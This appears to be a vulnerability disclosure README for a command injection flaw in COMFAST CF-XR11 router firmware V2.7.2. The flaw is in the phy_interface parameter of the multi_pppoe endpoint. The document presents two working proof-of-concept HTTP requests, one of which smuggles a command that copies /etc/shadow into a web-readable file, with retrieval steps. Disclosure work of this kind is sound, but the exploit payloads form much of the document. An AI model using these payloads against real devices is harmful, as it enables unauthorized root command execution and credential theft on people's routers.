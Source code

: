 # COMFAST CF-XR11 V2.7.2 Command Injection in `multi_pppoe`

## Overview
The COMFAST CF-XR11 is an 1800Mbps smart MESH router supporting multiple WAN configurations (e.g., PPPoE, DHCP, static IP) and Wi-Fi Portal authentication.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)

A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_423930`). Attackers can inject arbitrary commands via the `phy_interface` parameter in a POST request to `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`, enabling unauthorized access or full device compromise.

## Details
- **Vendor**: COMFAST
- **Vendor Website**: http://www.comfast.cn/
- **Product**: COMFAST CF-XR11
- **Firmware**: V2.7.2
- **Firmware Download**: http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar
- **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The `phy_interface` parameter is unsanitized and used in a `system_0` call (`sprintf_0(v78, "ifdown %s; ifup %s", v76, v76)`). When `action` is set to `"one_click_redial"`, malicious input in `phy_interface` (e.g., `br-wan && cat /etc/shadow > /www-comfast/test.txt`) executes arbitrary commands.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: Dump `/etc/shadow`
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && cat /etc/shadow > /www-comfast/test.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request using `curl` or Burp Suite.
  2. Access `http://cflogin.cn/test.txt` to view `/etc/shadow`.
- **Result**: The `/etc/shadow` file is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

### PoC 2: List Root Directory (`ls /`)
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 104
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && ls / > /www-comfast/ls.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request.
  2. Access `http://cflogin.cn/ls.txt` to view the root directory listing.
- **Result**: The root directory listing is written to `/www-comfast/ls.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/4.png)
![PoC 2 Result: Root Directory Listing](./imgs/5.png)

## Affected Versions
- COMFAST CF-XR11 V2.7.2
